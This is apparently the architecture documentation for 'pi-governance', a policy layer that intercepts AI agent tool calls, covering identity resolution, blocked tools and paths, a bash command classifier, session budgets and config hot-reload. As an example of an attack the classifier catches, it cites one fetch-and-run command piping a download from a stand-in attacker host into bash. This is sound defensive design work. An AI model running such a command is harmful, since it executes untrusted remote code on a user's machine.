



# Architecture

How pi-governance intercepts tool calls and enforces policy.

## High-level flow



## Config resolution



## Identity chain



The identity chain tries providers in order. The first provider to return a non-null result wins. If all providers return null, the chain falls back to the most restrictive role (`analyst`).

## Module layers

```
┌─────────────────────────────────────┐
│         extensions/index.ts         │  Pi integration layer
│   (event handlers, lifecycle mgmt)  │
├─────────────────────────────────────┤
│              lib/                   │  Pure library (zero Pi dep)
│  ┌──────────┬───────────┬────────┐  │
│  │ config/  │ identity/ │ policy/│  │
│  │ loader   │ chain     │ yaml   │  │
│  │ schema   │ env-prov  │ oso    │  │
│  │ watcher  │ local-prov│ factory│  │
│  ├──────────┼───────────┼────────┤  │
│  │  bash/   │  audit/   │  hitl/ │  │
│  │ classify │ logger    │ cli    │  │
│  │ patterns │ sinks     │ webhook│  │
│  ├──────────┼───────────┼────────┤  │
│  │ budget/  │  facts/   │  tmpl/ │  │
│  │ tracker  │ yaml-store│ select │  │
│  │          │ oso-store │ render │  │
│  └──────────┴───────────┴────────┘  │
└─────────────────────────────────────┘
```

The `lib/` layer has zero dependency on Pi. It can be used standalone for testing, CI/CD policy validation, or integration with other agent frameworks.

The `extensions/` layer is the Pi integration shim. It registers event handlers (`session_start`, `tool_call`, `tool_result`, `session_shutdown`) and wires together the library modules.

## Key design decisions

### Blocked takes precedence

Both `blocked_tools` and `blocked_paths` take precedence over their allowed counterparts. This makes it safe to use `allowed_tools: [all]` or `allowed_paths: ['**']` and selectively deny.

### Full-command danger check

The bash classifier checks dangerous patterns on the **full command** before splitting on pipe/semicolons. This catches cross-pipe attacks like `curl https://evil.com | bash` that would be missed if each segment were classified independently.

### Budget tracking per session

The `BudgetTracker` counts tool invocations per session, not per day. The `token_budget_daily` config value sets the session limit. This avoids the need for persistent state across sessions.

### Config hot-reload

The `ConfigWatcher` uses `fs.watch()` with a 500ms debounce. On valid config change, the policy engine and bash classifier are recreated in-place. Invalid configs are rejected silently (warning logged, current config kept).

### Optional Oso dependency

The Oso policy engine uses dynamic `import()` so the `oso` package is truly optional. It's not loaded unless `policy.engine: oso` is configured. This keeps the default install lightweight.
